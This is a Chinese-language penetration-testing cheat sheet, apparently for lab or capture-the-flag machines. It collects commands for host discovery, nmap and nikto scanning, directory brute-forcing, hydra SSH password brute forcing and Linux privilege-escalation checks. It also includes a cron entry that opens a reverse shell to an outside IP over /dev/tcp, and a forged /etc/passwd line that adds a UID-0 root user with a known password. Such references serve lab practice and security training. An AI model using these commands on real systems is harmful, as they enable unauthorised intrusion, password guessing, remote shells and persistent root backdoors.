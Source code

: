 ```yaml
---
slug: Command
title: 常用命令
authors: C0rr3ct
---
```


## 主机发现

### arp-scan

```bash
arp-scan -l
```

### netdiscover

指定网段扫描

```bash
netdiscover -r 192.168.56.0/24
```

指定网卡扫描

```bash
netdiscover -i eth0 -r 192.168.56.0/24
```

## 枚举

### nmap scan

扫描全端口

```shell
nmap -sT --min-rate=10000 -p- 192.168.56.1 -oN nmap_result/port
```

```shell
sudo nmap -sU --min-rate 10000 -p- 192.168.56.1 -oN nmap_result/udp
```

剪切开放端口

```shell
nmap -p- --min-rate=10000 -T4 192.168.56.1 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//
```

```shell
cat nmap_result/port | grep 'open' | awk -F'/' '{print $1}'| tr "\n" ','
```

详细扫描

```shell
sudo nmap -sT -sV -sC -O -p port -oN nmap_result/details 192.168.56.1
```

漏洞扫描

```shell
nmap --script=vuln 192.168.56.1 -p port -oN nmap_result/vuln 
```

### web

```
nikto -h http://192.168.56.1
```

## TCP的全端口扫描

```bash
nmap -sT --min-rate 10000 -p- 192.168.56.122
```

## 详细扫描端口

```bash
nmap -sT -sV -sC -O -p21,22,80 192.168.56.122
```

## FTP匿名登录

```bash
ftp 192.168.56.122
anonymous
```

## SSH登录

爆破

```bash
hydra -l renu -P /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt ssh://192.168.56.120
```

```bash
ssh w1r3s@192.168.56.127 -i id_rsa
```

## POP3登录

登录

```
USER your_username
PASS your_password
```

```
查看邮件数量
STAT

获取邮件列表
LIST

查看特定邮件（例如，查看第一封邮件）
RETR 1

删除特定邮件（例如，删除第一封邮件）
DELE 1
```

```shell
$ telnet pop.example.com 110
+OK POP3 server ready
USER your_username
+OK User name accepted
PASS your_password
+OK Password accepted
STAT
+OK 3 2048
LIST
+OK 3 messages:
1 1024
2 1024
3 512
RETR 1
+OK 1024 octets
[邮件内容]
.
QUIT
+OK Goodbye
```

## 目录扫描

### gobuster

```bash
gobuster dir -u http://192.168.56.122/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,html
```

### dirsearch

```bash
dirsearch -u http://192.168.56.101 -w zidian.txt -e php
```

### dirb

```bash
dirb http://192.168.56.100 /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

```
dirb http://192.168.56.1 -X .txt,.html,.tar,.zip,.php
```

### feroxbuster

```bash
feroxbuster --scan-limit 2 -t 1 --filter-status 404 -u http://192.168.56.108
```

### 字典

`kali linux`中自带的一些字典

```
/usr/share/wordlists/dirbuster/directory-list-2.3-*.txt
/usr/share/wordlists/dirbuster/directory-list-1.0.txt
/usr/share/wordlists/dirb/big.txt
/usr/share/wordlists/dirb/common.txt
/usr/share/wordlists/dirb/small.txt
/usr/share/wordlists/dirb/extensions_common.txt
```

还有`secLists`的字典

```bash
apt install secLists
```

```
/usr/share/seclists/
```

## 提权

### 寻找特殊程序能力

```bash
getcap -r / 2>/dev/null
```

### find查找suid权限的文件

```bash
find / -type f -perm -4000 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
```

### sudo

```bash
*/1 * * * *  /bin/sh -i >& /dev/tcp/10.211.55.2/9999 0>&1
```

### 定时任务

```bash
cat /etc/crontab
```

```shell
ls /var/spool/cron/crontabs/
```

### 内核

```bash
uname -a
```

```bash
lsb_release -a
```

### 可写文件

```bash
find / -writable 2>/dev/null
```

**生成passwd密码**

```shell
openssl passwd -1 -salt somesalt 123456 > hash.txt
corr:$1$somesalt$uGkN1R3BfqJr15hKXW5jt.:0:0::/root:/bin/bash
```

